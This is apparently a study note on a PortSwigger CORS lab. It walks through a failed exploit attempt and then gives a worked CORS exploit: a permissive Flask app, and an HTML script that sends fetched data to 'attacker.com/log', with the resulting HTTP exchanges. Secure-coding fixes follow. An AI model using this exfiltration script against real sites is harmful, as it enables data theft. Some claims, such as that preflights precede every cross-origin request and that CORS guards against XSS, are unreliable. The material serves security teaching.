

## Detailed Explanation of the Transcript Chunk

The transcript chunk describes a scenario where an attacker attempts to exploit a CORS vulnerability but encounters issues with the exploit code. Let's break down the steps and concepts involved in this process.

### Step-by-Step Breakdown

1. **Exploit Delivery**:
   - The attacker stores the exploit code on an exploit server.
   - The exploit is delivered to the victim user through a crafted request or link.
   - The victim's browser makes a request to the server hosting the exploit.

2. **Access Logs**:
   - The attacker checks the access logs to determine if the exploit was successful.
   - In this case, the exploit did not work as intended, as the API key of the administrator user was not obtained.

3. **HTTP History**:
   - The attacker examines the HTTP history on the exploit server to understand what went wrong.
   - The HTTP history shows that the `document.location` assignment did not result in an actual request being made.

4. **Console Inspection**:
   - The attacker inspects the browser console to find the root cause of the issue.
   - An uncaptured syntax error is identified, indicating that the script is not properly terminated.

5. **URL Encoding**:
   - The attacker suspects that the issue might be related to URL encoding of certain variables.
   - The variable `%3C` (which represents `<`) is URL encoded to ensure proper parsing.

6. **Revised Exploit**:
   - The revised exploit code is saved and delivered again to the victim.
   - Despite the changes, the exploit still does not work, indicating that there is still an issue with the script.

### Detailed Concepts

#### CORS Preflight Requests

Before making a cross-origin request, the browser sends a preflight request using the OPTIONS method. This request includes headers such as `Access-Control-Request-Method` and `Access-Control-Request-Headers`. The server responds with headers indicating whether the actual request is allowed.



#### Syntax Errors and Script Termination

Syntax errors in JavaScript can prevent scripts from executing correctly. In this case, the uncaptured syntax error indicates that the script is not properly terminated. This can happen due to missing semicolons, unmatched parentheses, or other syntactical issues.

#### URL Encoding

URL encoding is used to ensure that special characters are properly transmitted in URLs. For example, the less-than symbol (`<`) is encoded as `%3C`. Proper URL encoding is crucial to avoid issues with parsing and execution.

### Complete Example of CORS Exploit

Let's walk through a complete example of a CORS exploit, including the HTTP request and response, and the expected result.

#### Vulnerable CORS Configuration

Consider a web application with a vulnerable CORS configuration:

```python
from flask import Flask, request, jsonify

app = Flask(__name__)

@app.after_request
def after_request(response):
    response.headers.add('Access-Control-Allow-Origin', '*')
    response.headers.add('Access-Control-Allow-Methods', 'GET, POST, OPTIONS')
    response.headers.add('Access-Control-Allow-Headers', 'Content-Type, Authorization')
    return response

@app.route('/api/data', methods=['GET'])
def get_data():
    return jsonify({'data': 'Sensitive information'})

if __name__ == '__main__':
    app.run()
```

#### Exploit Code

The attacker crafts an exploit to access the sensitive data:

```html
<!DOCTYPE html>
<html>
<head>
    <title>CORS Exploit</title>
</head>
<body>
<script>
    fetch('https://vulnerable-app.com/api/data')
        .then(response => response.json())
        .then(data => {
            console.log(data);
            document.location = 'https://attacker.com/log?data=' + encodeURIComponent(JSON.stringify(data));
        });
</script>
</body>
</html>
```

#### HTTP Request and Response

The browser makes a request to the server hosting the exploit:

```http
GET /exploit.html HTTP/1.1
Host: attacker.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: keep-alive
```

The server responds with the exploit code:

```http
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 274

<!DOCTYPE html>
<html>
<head>
    <title>CORS Exploit</title>
</head>
<body>
<script>
    fetch('https://vulnerable-app.com/api/data')
        .then(response => response.json())
        .then(data => {
            console.log(data);
            document.location = 'https://attacker.com/log?data=' + encodeURIComponent(JSON.stringify(data));
        });
</script>
</body>
</html>
```

The browser then makes a request to the vulnerable server:

```http
GET /api/data HTTP/1.1
Host: vulnerable-app.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: */*
Referer: https://attacker.com/exploit.html
Origin: https://attacker.com
Connection: keep-alive
```

The server responds with the sensitive data:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
Content-Type: application/json
Content-Length: 34

{"data": "Sensitive information"}
```

The browser then redirects to the attacker's server with the stolen data:

```http
GET /log?data=%7B%22data%22%3A%22Sensitive%20information%22%7D HTTP/1.1
Host: attacker.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: keep-alive
```

### How to Prevent / Defend

#### Secure Coding Practices

To prevent CORS vulnerabilities, follow these secure coding practices:

1. **Validate the Origin Header**: Ensure that the `Origin` header matches a list of trusted domains.
2. **Use Specific Origins**: Avoid using `"*"` for `Access-Control-Allow-Origin`. Instead, specify the exact domains that are allowed.
3. **Limit Allowed Methods and Headers**: Only allow the necessary HTTP methods and headers required for your application.

#### Example of Vulnerable Code

Here is an example of vulnerable CORS configuration:

```python
from flask import Flask, request, jsonify

app = Flask(__name__)

@app.after_request
def after_request(response):
    response.headers.add('Access-Control-Allow-Origin', '*')
    response.headers.add('Access-Control-Allow-Methods', 'GET, POST, OPTIONS')
    response.headers.add('Access-Control-Allow-Headers', 'Content-Type, Authorization')
    return response

@app.route('/api/data', methods=['GET'])
def get_data():
    return jsonify({'data': 'Sensitive information'})

if __name__ == '__main__':
    app.run()
```

#### Corrected Secure Code

Here is the corrected version:

```python
from flask import Flask, request, jsonify

app = Flask(__name__)

trusted_origins = ['https://example.com']

@app.after_request
def after_request(response):
    origin = request.headers.get('Origin')
    if origin in trusted_origins:
        response.headers.add('Access-Control-Allow-Origin', origin)
    response.headers.add('Access-Control-Allow-Methods', 'GET, POST, OPTIONS')
    response.headers.add('Access-Control-Allow-Headers', 'Content-Type, Authorization')
    return response

@app.route('/api/data', methods=['GET'])
def get_data():
    return jsonify({'data': 'Sensitive information'})

if __name__ == '__main__':
    app.run()
```

### Detection and Prevention Tools

Several tools can help detect and prevent CORS vulnerabilities:

- **Burp Suite**: A comprehensive toolkit for web application security testing that includes features for detecting and exploiting CORS misconfigurations.
- **OWASP ZAP**: An open-source web application security scanner that can identify CORS-related vulnerabilities.
- **CORS Anywhere**: A Node.js proxy server that adds CORS headers to responses, useful for testing and development purposes.

### Hands-On Labs

For practical experience with CORS vulnerabilities, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a module on CORS that includes interactive challenges and detailed explanations.
- **OWASP Juice Shop**: A deliberately insecure web application that includes CORS vulnerabilities for educational purposes.
- **DVWA (Damn Vulnerable Web Application)**: Provides a variety of web application vulnerabilities, including CORS misconfigurations.

### Conclusion

Understanding and properly implementing CORS is crucial for securing web applications against cross-site scripting (XSS) and other related attacks. By following secure coding practices and using appropriate tools, developers can effectively mitigate CORS vulnerabilities and protect their applications from unauthorized access.

---
<!-- nav -->
[[Web Security (PortSwigger)/07-Cross-origin Resource Sharing (CORS)/04-Lab 3 CORS vulnerability with trusted insecure protocols/02-Cross-Origin Resource Sharing (CORS)|Cross-Origin Resource Sharing (CORS)]] | [[Web Security (PortSwigger)/07-Cross-origin Resource Sharing (CORS)/04-Lab 3 CORS vulnerability with trusted insecure protocols/00-Overview|Overview]] | [[Web Security (PortSwigger)/07-Cross-origin Resource Sharing (CORS)/04-Lab 3 CORS vulnerability with trusted insecure protocols/04-Practice Questions & Answers|Practice Questions & Answers]]
